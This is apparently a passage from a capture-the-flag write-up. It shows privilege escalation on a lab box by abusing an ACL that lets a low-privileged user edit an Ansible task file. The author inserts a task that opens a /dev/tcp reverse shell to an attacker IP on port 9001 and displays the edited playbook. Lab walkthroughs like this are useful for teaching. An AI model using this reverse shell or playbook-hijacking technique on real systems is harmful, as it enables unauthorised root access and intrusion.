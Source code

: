 Okay, so here the file permissions are important.
As you can see there's a + sign for "configure-RedHat.yml", which means there is an ACL attached to this.
ACL = Access Control List, which adds more permissions for file systems to add onto the UNIX ones.

To set these permissions you would use setfacl, and to read them you would use getfacl.

```
[theodore@aratus tasks]$ getfacl configure-RedHat.yml
# file: configure-RedHat.yml
# owner: automation
# group: automation
user::rw-
user:theodore:rw-
group::rw-
mask::rw-
other::r--
```
Our user, theodore, has read and write access to this file, so we can do malicious things.

I open the file and use a reverse shell generated from revshells.com.

I add it in as a command with a name called root, following the syntax for yml files.

- name: root
  command: /bin/sh -i >& /dev/tcp/10.9.13.203/9001 0>&1

```
[theodore@aratus tasks]$ cat configure-RedHat.yml 
---
- name: Configure Apache.
  lineinfile:
    dest: "{{ apache_server_root }}/conf/{{ apache_daemon }}.conf"
    regexp: "{{ item.regexp }}"
    line: "{{ item.line }}"
    state: present
    mode: 0644
  with_items: "{{ apache_ports_configuration_items }}"
  notify: restart apache

- name: Check whether certificates defined in vhosts exist.
  stat: path={{ item.certificate_file }}
  register: apache_ssl_certificates
  with_items: "{{ apache_vhosts_ssl }}"

- name: Add apache vhosts configuration.
  template:
    src: "{{ apache_vhosts_template }}"
    dest: "{{ apache_conf_path }}/{{ apache_vhosts_filename }}"
    owner: root
    group: root
    mode: 0644
  notify: restart apache
  when: apache_create_vhosts | bool

- name: Check if localhost cert exists (RHEL 8 and later).
  stat:
    path: /etc/pki/tls/certs/localhost.crt
  register: localhost_cert
  when: ansible_distribution_major_version | int >= 8

- name: Ensure httpd certs are installed (RHEL 8 and later).
  command: /usr/libexec/httpd-ssl-gencerts
  when:
    - ansible_distribution_major_version | int >= 8
    - not localhost_cert.stat.exists
- name: root
```

[WARNING]: Consider using 'become', 'become_method', and 'become_user' rather than running sudo